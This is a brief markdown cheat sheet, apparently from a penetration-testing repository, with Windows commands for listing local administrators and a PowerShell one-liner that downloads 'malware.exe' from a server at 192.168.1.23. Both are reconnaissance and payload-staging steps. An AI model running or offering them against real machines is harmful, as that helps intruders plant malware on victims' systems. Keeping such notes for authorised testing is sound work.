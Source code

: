 # Windows

## Net
**Local Administrators**
```
net localgroup administrators
```

## PowerShell
**Download a File**
```pwsh
iwr http://192.168.1.23:8000/malware.exe -o malware.exe
```
